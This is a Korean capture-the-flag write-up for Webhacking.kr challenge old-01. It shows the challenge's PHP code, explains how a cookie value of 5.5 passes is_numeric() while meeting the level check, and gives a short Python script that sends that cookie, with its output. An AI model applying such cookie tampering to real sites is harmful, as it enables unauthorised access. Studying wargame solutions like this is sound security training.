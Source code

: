 ```yaml
---
layout: post
title: old-01
author: bindon
category: Webhacking.kr
date: 2019-11-27
---
```


# Problem Analysis
![old-01-problem]({{site.url}}{{site.baseurl}}{{site.assets_path}}/img/posts/Web Hacking KR/old-01-problem.png){:style="display: block; margin: 0 auto"}

문제를 확인하면, 이 페이지에서는 사용자의 입력을 받는 부분이 따로 나타나지 않기 때문에, 바로 view-source 링크를 클릭하여 코드를 확인합니다.

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```
코드의 상단 부분을 먼저 확인하면 쿠키가 없을 때 `user_lv` 에 1을 넣는것을 확인할 수 있고, 실제로 페이지에 아무런 조작 없이 접속했을 때 쿠키에 `user_lv=1`이 할당된 것을 확인할 수 있습니다.
코드의 하단 부분을 확인하면 세 가지의 if문을 통해 아래와 같이 로직을 나누고 있습니다.
1. `user_lv`가 is_numeric()을 통과하지 못하면 `user_lv`를 1로 설정
2. `user_lv`가 6 이상이면 `user_lv`를 1로 설정
3. `user_lv`가 5 초과라면 `solve(1)`을 실행

우리의 목적은 1, 2를 우회하여 3을 실행하는 것입니다.
1번 조건은 숫자를 입력하면 됩니다.
2번 조건을 우회하기 위해 6 미만의 숫자를 입력해야 합니다.
3번 조건을 만족하기 위해 5 초과의 숫자를 입력해야 합니다.
즉, `is_numeric()`을 통과하며 $$ 5 < user\_lv < 6 $$을 만족하면 됩니다.

해당 조건을 만족하는 수를 알기 위해서는 [`is_numeric()`](https://www.php.net/manual/en/function.is-numeric.php)함수의 특징을 알아야 합니다.
`is_numeric()`은 부호, 10진수, 지수(e), 소수점을 허용합니다. 예를 들어 +0123.45e6는 올바른 값입니다.
즉 우리는 소수점을 사용하여 1번 조건을 우회할 수 있다는 것을 파악하였으므로, $$ 5 < user\_lv < 6 $$를 만족할 수 있는 값을 사용하면 됩니다.
여기서는 `user_lv`를 `5.5`로 정의하여 사용할 예정입니다.

# Implementation
```python
import login

print "[+] Login and get session"
session = login.getLoginSession()

print "[+] Set URL"
url = "https://webhacking.kr/challenge/web-01/"

print "[+] Set cookies"
cookies = {
    "user_lv": "5.5"
}

print "[+] Exploit"
response = session.get(url=url, cookies=cookies)
print response.text
```

# Execution Result
```
[+] Login and get session
[+] Set cookies
[+] Exploit
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<script>alert('already solved');</script><br>level : 5.5<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```